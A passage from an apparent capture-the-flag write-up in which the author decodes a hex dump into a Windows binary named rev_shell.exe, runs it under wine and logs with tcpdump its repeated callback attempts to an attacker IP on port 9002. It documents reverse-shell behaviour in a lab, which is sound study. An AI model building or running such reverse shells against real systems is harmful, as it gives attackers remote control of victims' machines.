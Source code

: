
I can then use xxd to decode it back into binary:

    
    
    root@kali# cat hex | xxd -r -p > rev_shell.exe
    root@kali# file rev_shell.exe
    rev_shell.exe: PE32 executable (GUI) Intel 80386, for MS Windows
    

Just for grins, I ran it under `wine` and used `tcpdump` to look for network
activity. I can see the attempts to connect from my current IP (10.10.14.3) to
the IP I had when I made this binary (10.10.15.83):

    
    
    root@kali# wine rev_shell.exe
    000f:err:service:process_send_command receiving command result timed out
    0015:err:service:process_send_command receiving command result timed out
    002a:err:plugplay:handle_bus_relations Failed to load driver L"WineHID"
    
    
    
    root@kali# tcpdump -n -i any port 9002
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
    07:16:03.813941 IP 10.10.14.3.43648 > 10.10.15.83.9002: Flags [S], seq 1626341309, win 29200, options [mss 1460,sackOK,TS val 3698676684 ecr 0,nop,wscale 7], length 0
    07:16:04.832595 IP 10.10.14.3.43648 > 10.10.15.83.9002: Flags [S], seq 1626341309, win 29200, options [mss 1460,sackOK,TS val 3698677702 ecr 0,nop,wscale 7], length 0
    07:16:06.842599 IP 10.10.14.3.43648 > 10.10.15.83.9002: Flags [S], seq 1626341309, win 29200, options [mss 1460,sackOK,TS val 3698679712 ecr 0,nop,wscale 7], length 0
    07:16:11.034693 IP 10.10.14.3.43648 > 10.10.15.83.9002: Flags [S], seq 1626341309, win 29200, options [mss 1460,sackOK,TS val 3698683904 ecr 0,nop,wscale 7], length 0
    07:16:19.226987 IP 10.10.14.3.43648 > 10.10.15.83.9002: Flags [S], seq 1626341309, win 29200, options [mss 1460,sackOK,TS val 3698692097 ecr 0,nop,wscale 7], length 0
    07:16:35.354833 IP 10.10.14.3.43648 > 10.10.15.83.9002: Flags [S], seq 1626341309, win 29200, options [mss 1460,sackOK,TS val 3698708224 ecr 0,nop,wscale 7], length 0
    07:17:08.635109 IP 10.10.14.3.43648 > 10.10.15.83.9002: Flags [S], seq 1626341309, win 29200, options [mss 1460,sackOK,TS val 3698741505 ecr 0,nop,wscale 7], length 0
    07:18:14.171986 IP 10.10.14.3.43650 > 10.10.15.83.9002: Flags [S], seq 1626341312, win 29200, options [mss 1460,sackOK,TS val 3698807042 ecr 0,nop,wscale 7], length 0
    07:18:15.194660 IP 10.10.14.3.43650 > 10.10.15.83.9002: Flags [S], seq 1626341312, win 29200, options [mss 1460,sackOK,TS val 3698808064 ecr 0,nop,wscale 7], length 0
    07:18:17.211338 IP 10.10.14.3.43650 > 10.10.15.83.9002: Flags [S], seq 1626341312, win 29200, options [mss 1460,sackOK,TS val 3698810081 ecr 0,nop,wscale 7], length 0
    07:18:21.338744 IP 10.10.14.3.43650 > 10.10.15.83.9002: Flags [S], seq 1626341312, win 29200, options [mss 1460,sackOK,TS val 3698814208 ecr 0,nop,wscale 7], length 0
    07:18:29.535012 IP 10.10.14.3.43650 > 10.10.15.83.9002: Flags [S], seq 1626341312, win 29200, options [mss 1460,sackOK,TS val 3698822405 ecr 0,nop,wscale 7], length 0
    07:18:45.661418 IP 10.10.14.3.43650 > 10.10.15.83.9002: Flags [S], seq 1626341312, win 29200, options [mss 1460,sackOK,TS val 3698838531 ecr 0,nop,wscale 7], length 0
    07:19:19.711096 IP 10.10.14.3.43650 > 10.10.15.83.9002: Flags [S], seq 1626341312, win 29200, options [mss 1460,sackOK,TS val 3698872581 ecr 0,nop,wscale 7], length 0
    07:20:25.243620 IP 10.10.14.3.43652 > 10.10.15.83.9002: Flags [S], seq 1626341315, win 29200, options [mss 1460,sackOK,TS val 3698938113 ecr 0,nop,wscale 7], length 0
    07:20:26.266908 IP 10.10.14.3.43652 > 10.10.15.83.9002: Flags [S], seq 1626341315, win 29200, options [mss 1460,sackOK,TS val 3698939137 ecr 0,nop,wscale 7], length 0
    07:20:28.286061 IP 10.10.14.3.43652 > 10.10.15.83.9002: Flags [S], seq 1626341315, win 29200, options [mss 1460,sackOK,TS val 3698941156 ecr 0,nop,wscale 7], length 0
    07:20:32.410792 IP 10.10.14.3.43652 > 10.10.15.83.9002: Flags [S], seq 1626341315, win 29200, options [mss 1460,sackOK,TS val 3698945280 ecr 0,nop,wscale 7], length 0
    07:20:40.602702 IP 10.10.14.3.43652 > 10.10.15.83.9002: Flags [S], seq 1626341315, win 29200, options [mss 1460,sackOK,TS val 3698953472 ecr 0,nop,wscale 7], length 0
    07:20:56.730818 IP 10.10.14.3.43652 > 10.10.15.83.9002: Flags [S], seq 1626341315, win 29200, options [mss 1460,sackOK,TS val 3698969600 ecr 0,nop,wscale 7], length 0
    07:21:30.779060 IP 10.10.14.3.43652 > 10.10.15.83.9002: Flags [S], seq 1626341315, win 29200, options [mss 1460,sackOK,TS val 3699003649 ecr 0,nop,wscale 7], length 0
    